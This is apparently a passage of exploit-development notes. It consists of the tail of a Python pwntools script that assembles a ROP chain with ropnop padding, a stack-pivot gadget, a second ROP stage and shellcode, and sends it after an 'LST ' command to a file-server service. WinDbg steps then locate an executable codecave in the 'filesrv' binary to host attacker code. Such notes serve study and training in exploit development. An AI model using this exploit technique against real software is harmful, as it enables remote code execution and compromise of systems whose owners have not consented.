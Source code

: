 ```python
for i in range(0, offset-len(rop1)-4, 4):
	  rop1 += p32(0x159d + binary_base) # ropnop
# jump over pivot gadget
rop1 += p32(0x3da53 + binary_base) # add esp, 0x10; ret;

rop2 = b""
rop2 += p32(binary_base + 0x159d)*(10) # ropnop
for g in rop_setup:
	print(hex(g))
	rop2 += p32(g)

log.info("Sending payload..")
buf  = b""
buf += b"LST "
buf += rop1
buf += b"B" * 4
buf += pivot
buf += rop2
buf += sc
buf += b"D" * (size-len(buf))
p.sendline(buf)

input("Press enter to continue..")
p.close() 
```

## Misc

**Finding a codecave**

A codecave is an (executable) memory area of a binary that is unused and can be used to host attacker provided code. We can find the code section as follows:

```
0:001> dd filesrv + 3c L1
3fab003c  000000f8
0:001> dd filesrv + f8 + 2c L1
3fab0124  00001000
0:001> ? filesrv+1000
Evaluate expression: 1068175360 = 3fab1000
0:001> !vprot 3fab1000
BaseAddress:       3fab1000
AllocationBase:    3fab0000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0008f000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              01000000  MEM_IMAGE
```

Now we can use some unused area between 3fab1000 and 3fab1000+0008f000=3FB40000. A good candidate to look is towards the end – but really you can use anything if you are confident the binary does not crash when you overwrite it or you don’t care.
